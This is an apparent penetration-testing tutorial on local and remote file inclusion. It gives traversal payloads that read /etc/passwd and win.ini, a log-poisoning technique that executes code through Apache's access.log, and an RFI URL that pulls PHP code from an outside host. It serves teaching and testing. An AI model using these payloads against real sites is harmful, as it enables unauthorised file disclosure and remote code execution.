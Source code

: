 File Inclusion:
===
File inclusion is a web security vulnerability 
in which user supplied data is include in include() without sanitization on the web application.

File inclusion is classified as two types:

1.LFI(Local file inclusion)

2.RFI(Remote File Inclusion)

<h3>LFI</h3>

Local File Inclusion (LFI) allows an attacker to include local files on a server through the web browser. 
This vulnerability exists when a web application includes a file without correctly sanitising the input, 
allowing and attacker to manipulate the input and inject path traversal characters and include other files from the web server.
it is doe via relative or full path we have to check which is accesible.

<h3>Identification & EXPLOITATION</h3>

LFI vulnerabilities are easy to identify and exploit. Any script that includes a file from a web server is a good candidate for further LFI testing, 
For example:

               /script.php?page=/windows/win.ini
     
Internally we check log file in "/xampp/apache/logs/access.log "
we will find the user contrallable data in the present activity,then paste the code in user contralable field such as "USER AGENT:"
in the last paste the path of access.log in web browser and in result the code will be executed.

<h3>In linux</h3>
A penetration tester would attempt to exploit this vulnerability by manipulating the file location parameter, 
such as:

           /script.php?page=../../../../../../../../etc/passwd

The above is an effort to display the contents of the /etc/passwd file on a UNIX / Linux based system.

RFI
===
A remote file inclusion (RFI) occurs when a file from a remote web server is inserted into a web page. 
This can be done on purpose to display content from a remote web application.In this we will only used full path. 

<h3>Identification & Exploitation</h3>

1.Go to your target website and find any parameter that loads the content of any remote websites
for eg. url, page, file etc. (Use Spider option of burp for finding parameters)

2.suppose we find vulnerbaility in "page" parameter

For example:

     /script.php?page=http://www.webhosted.com/b0x.txt 


Note:- If we find any problem or application not allow to fetch data then we will ecxploit it in burp suite
and can fetch the data from the remote URL.

if we are appending php code in the b0x file then we have to save it as .txt file on the internet based server.
This is how we can exploit RFI.




THANKS
ROHIT TANWAR






